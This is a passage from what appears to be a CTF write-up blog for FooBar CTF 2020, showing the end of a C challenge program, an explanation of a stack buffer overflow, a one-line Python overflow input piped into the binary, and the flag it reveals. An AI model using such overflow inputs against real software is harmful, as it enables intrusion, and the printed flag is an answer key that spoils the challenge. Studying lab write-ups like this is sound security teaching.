 		printf("Here;s your flag: %s\n", FLAG);
	} else {
		printf("Sorry, you only had filled %d litres, try again!\n",numLitre);
	}
		
	return 0;
}

shell11@349241e9b0e8:~$

{% endhighlight %}

This was a basic buffer overflow vulnerability. If the input is longer than 64 characters, it will start overwriting values on the stack. If it is long enough, it will eventually overwrite the numLitre variable.

{% highlight bash %}
shell11@349241e9b0e8:~$ python3 -c "print('a' * 100)" | ./watertank
Welcome to the Water Well problem!

In order to get the flag, you will need to have 100L of water!

So, how many litres of water are there in the well: 
Congrats, you filled 1633771873 litres!
Here;s your flag: GLUG{60_w17h_7h3_fl0w}
Segmentation fault (core dumped)
shell11@349241e9b0e8:~$

{% endhighlight %}

**Flag:** GLUG{60\_w17h\_7h3_fl0w}

## shell12: Stacks are cool {#shell12}

<div>
<center><img src="/images/foobarctf_2020_writeup_part_ii/image-62.png"></center>
</div>
